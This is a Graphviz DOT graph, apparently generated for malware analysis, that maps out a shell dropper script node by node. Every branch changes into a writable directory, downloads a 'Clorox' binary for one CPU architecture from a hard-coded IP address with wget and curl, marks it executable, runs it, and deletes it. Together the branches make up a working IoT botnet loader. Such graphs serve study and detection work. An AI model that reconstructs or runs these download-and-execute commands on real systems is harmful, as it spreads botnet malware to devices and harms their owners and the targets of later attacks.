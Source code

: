 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://198.167.136.178/Clorox.mips "];
10 -> 12 [label=";,"];
12 [label="curl -O http://198.167.136.178/Clorox.mips "];
12 -> 14 [label=";,"];
14 [label="chmod +x Clorox.mips "];
14 -> 16 [label=";,"];
16 [label="./Clorox.mips "];
16 -> 18 [label=";,"];
18 [label="rm -rf Clorox.mips "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://198.167.136.178/Clorox.mpsl "];
30 -> 32 [label=";,"];
32 [label="curl -O http://198.167.136.178/Clorox.mpsl "];
32 -> 34 [label=";,"];
34 [label="chmod +x Clorox.mpsl "];
34 -> 36 [label=";,"];
36 [label="./Clorox.mpsl "];
36 -> 38 [label=";,"];
38 [label="rm -rf Clorox.mpsl "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://198.167.136.178/Clorox.sh4 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://198.167.136.178/Clorox.sh4 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Clorox.sh4 "];
54 -> 56 [label=";,"];
56 [label="./Clorox.sh4 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Clorox.sh4 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://198.167.136.178/Clorox.x86 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://198.167.136.178/Clorox.x86 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Clorox.x86 "];
74 -> 76 [label=";,"];
76 [label="./Clorox.x86 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Clorox.x86 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://198.167.136.178/Clorox.arm "];
90 -> 92 [label=";,"];
92 [label="curl -O http://198.167.136.178/Clorox.arm "];
92 -> 94 [label=";,"];
94 [label="chmod +x Clorox.arm "];
94 -> 96 [label=";,"];
96 [label="./Clorox.arm "];
96 -> 98 [label=";,"];
98 [label="rm -rf Clorox.arm "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://198.167.136.178/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://198.167.136.178/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
217 [label="rm -rf Clorox.pcc "];
217 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://198.167.136.178/Clorox.i686 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://198.167.136.178/Clorox.i686 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Clorox.i686 "];
134 -> 136 [label=";,"];
136 [label="./Clorox.i686 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Clorox.i686 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://198.167.136.178/Clorox.i586 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://198.167.136.178/Clorox.i586 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Clorox.i586 "];
154 -> 156 [label=";,"];
156 [label="./Clorox.i586 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Clorox.i586 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://198.167.136.178/Clorox.m68k "];
170 -> 172 [label=";,"];
172 [label="curl -O http://198.167.136.178/Clorox.m68k "];
172 -> 174 [label=";,"];
174 [label="chmod +x Clorox.m68k "];
174 -> 176 [label=";,"];
176 [label="./Clorox.m68k "];
176 -> 178 [label=";,"];
178 [label="rm -rf Clorox.m68k "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://198.167.136.178/Clorox.spc "];
190 -> 192 [label=";,"];
192 [label="curl -O http://198.167.136.178/Clorox.spc "];
192 -> 194 [label=";,"];
194 [label="chmod +x Clorox.spc "];
194 -> 196 [label=";,"];
196 [label="./Clorox.spc "];
196 -> 198 [label=";,"];
198 [label="rm -rf Clorox.spc "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://198.167.136.178/Clorox.pcc "];
210 -> 212 [label=";,"];
212 [label="curl -O http://198.167.136.178/Clorox.pcc "];
212 -> 214 [label=";,"];
214 [label="chmod +x Clorox.pcc "];
214 -> 216 [label=";,"];
216 [label="./Clorox.pcc "];
216 -> 217 [label=";,"];
}
